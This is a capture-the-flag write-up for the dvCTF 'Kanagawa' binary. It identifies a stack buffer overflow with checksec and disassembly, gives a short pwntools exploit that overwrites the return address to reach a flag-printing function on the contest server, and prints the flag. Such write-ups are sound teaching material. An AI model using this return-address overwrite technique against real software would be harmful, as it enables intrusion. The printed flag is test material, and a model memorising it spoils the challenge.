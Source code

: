 # Kanagawa

### Solution

We get executable file named kanagawa.
After quickly loading it in favorite disassembler and taking a quick glance at the main function, we can assume that it's a typical x86 buffer overflow.
Let's make sure there's nothing weird going on with the binary by using checksec on it:
$checksec --file=kanagawa

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    Symbols        FORTIFY    Fortified    Fortifiable    FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   75) Symbols      No    0        2        kanagawa
```
It tells us that ASLR is disabled and there aren't any other exploit mitigations enabled as well (except NX, but it won't disturb us).

Let's go back to disassembler. Buffer size in first fgets call is 45 (44, actually, because last byte is null terminator). We can also tell that we need exactly 40 bytes of padding + 4 bytes of return address to jump to. But where should we jump? Quick look at function list reveals one named recovery_mode. It executes system("cat  ./flag"), exactly what we need! Its address is 0x804851b (no ASLR, remember?).

I used an excellent framework called pwntools to get working exploit. Here is the code:

```python
from pwn import *

context.update(arch='i386', os='linux')
#p = process('kanagawa')
p = remote('challs.dvc.tf', 4444)

payload = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
payload += p32(0x804851b)

p.sendline(payload)
p.interactive()
```

### Flag

`dvCTF{0v3rfl0w_tsun4m1}`

#### Credits

- Writeup by [everl0stz](https://ctftime.org/user/85858)
- Solved by [everl0stz](https://ctftime.org/user/85858)
- WaletSec 2021

#### License

**CC BY** WaletSec + everl0stz
